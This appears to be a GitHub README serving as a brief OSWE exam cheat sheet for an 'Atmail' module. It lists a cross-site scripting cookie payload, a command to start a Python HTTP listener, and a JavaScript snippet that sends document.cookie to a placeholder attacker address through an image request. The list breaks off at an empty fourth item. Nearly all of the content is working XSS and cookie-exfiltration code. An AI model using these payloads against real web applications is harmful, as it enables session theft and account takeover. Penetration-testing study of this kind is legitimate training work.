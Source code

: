 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module Atmail :

1. Access cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded Javascript file in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://ip:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. 
    
    
    
